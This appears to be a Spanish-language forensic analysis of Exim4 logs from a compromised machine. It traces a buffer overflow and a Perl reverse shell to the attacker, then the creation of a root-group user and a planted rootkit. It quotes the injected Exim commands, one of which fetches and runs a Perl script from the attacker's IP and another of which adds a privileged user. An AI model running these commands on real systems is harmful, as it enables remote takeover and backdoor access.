 ![logs](https://user-images.githubusercontent.com/47476901/151601664-c6e7360c-2345-47f4-b930-6209ed152a45.png)


Buffer Overflow log:

```bash
cat var/log/exim4/rejectlog
```

![BufferOverflow](https://user-images.githubusercontent.com/47476901/151601700-7197f48d-cdb2-4418-9454-f7170a103ef7.png)

Intentaba descargar el archivo realizando el desbordamiento y una de las peticiones fue realizada correctamente, una vez se descargó el archivo perl de su maquina de atacante, lo ubicaba en tmp como usuario exim y lo ejecutó como ese usuario.

```bash
cat var/log/exim4/mainlog
```

Este binario perl realiza una conexion por sockets creando asi una sesion remota del ordenador victima al atacante.

```bash
${run{/bin/sh -c "exec /bin/sh -c 'wget http://192.168.56.1/c.pl -O /tmp/c.pl;perl /tmp/c.pl 192.168.56.1 4444; sleep 1000000'"}}
```
![perlreverse](https://user-images.githubusercontent.com/47476901/151601733-346e564f-5970-4da6-aeb8-1daae6426961.png)


Exploit de perl que realiza una reverse shell al ordenador (exploit que se ejecuta en exim para conectarse al ordenador remotamente como usuario root):

<b>- Este es el Remote Code Execution</b><br>
<b> La forma en la que se conectó el atacante</b>

![binarioperl](https://user-images.githubusercontent.com/47476901/151601751-a0c87d38-57af-4380-8b27-d8626a8fbc3c.png)

```bash
cat var/log/exim4/mainlog
```
      
Crea un nuevo usuario que este en el grupo de administador con una contraseña hasheada en md5.

<b>- Este es el Local Privilege Escalation</b><br>
<b>La forma en la que se convierte en root</b>

```bash
${run{/bin/sh -c "exec /bin/sh -c 'useradd --gid root --create-home --password  0 0mkpasswd -H md5 Ulyss3s) ulysses'"}} 
```

![crearusuario](https://user-images.githubusercontent.com/47476901/151601768-cab31bd9-4515-4174-bcf1-7ec1df3979df.png)


En tmp podemos observar como esta el fichero <b>c.perl</b> (el cual generaba esa conexion),
y un archivo comprimido llamado <b>rk.tar</b>

![tmpfiles](https://user-images.githubusercontent.com/47476901/151601785-d6662d80-4c74-4a1a-9d95-ded5142f1266.png)


Analizando el archivo rk, nos damos cuenta de que se trata de un rootkit, el cual genera una puerta trasera al sistema usando iptables y demas cosas.

![rootkit](https://user-images.githubusercontent.com/47476901/151602060-d4c88931-3218-4611-8a43-ff6eddf33892.png)
